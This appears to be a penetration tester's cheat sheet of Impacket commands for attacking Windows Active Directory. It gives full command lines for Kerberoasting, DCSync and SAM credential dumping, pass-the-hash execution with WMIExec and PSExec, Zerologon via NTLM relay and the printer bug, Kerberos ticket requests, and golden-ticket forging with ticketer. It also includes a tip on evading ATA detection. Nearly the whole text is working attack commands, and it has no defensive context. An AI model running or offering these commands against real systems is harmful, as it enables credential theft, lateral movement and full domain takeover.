- Kerberoast
	- `python3 GetUserSPNs.py -request -dc-ip [IP address for Domain Controller] cyberpunk.com/[USER]`
- DCSync
	- `.secretsdump.py -just-dc-user [ACCOUNT] [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]`
		- `secretsdump.py 'contoso.local/Administrator@192.168.100.2' -just-dc-user krbtgt`
- Dump local SAM file
	- `secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
- WMIExec
	- `impacket-wmiexec n.glover@10.10.120.1`
	- `impacket-wmiexec -hashes AAD3B435B51404EEAAD3B435B51404EE:a6a6591a1fef4938ce2ca6ea255838a9 n.glover@10.10.120.1`
- Zerologon using NTLM Relay:
	- `impacket-ntlmrelayx -t DCSYNC://<DCvulnerabletoZL> -smb2support -auth-smb 'DOMAIN/USER:PASSWORD'`
	- `python3 printerbug.py 'DOMAIN/USER:PASSWORD@<OtherDC>' <attackerIP`
- PSExec
	- `psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21`
- getTGT
	- `getTGT.py contoso.local/Anakin -dc-ip 192.168.100.2 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21`
	- `export KRB5CCNAME=$(pwd)/Anakin.ccache`
	- `psexec.py contoso.local/Anakin@WS01-10 -target-ip 192.168.100.10 -k -no-pass`
		- Must use hostname instead of IP; Kerberos requires it to determine the correct service
- NTLMRelayX
	- `ntlmrelayx.py -t 192.168.100.10 -smb2support`
- Ticketer
	- `ticketer.py -domain-sid S-1-5-21-1372086773-2238746523-2939299801 -domain contoso.local Administrator -aes 5249e3cf829c979959286c0ee145b7e6b8b8589287bea3c83dd5c9488c40f162`
		- Use AES-256 hash to avoid ATA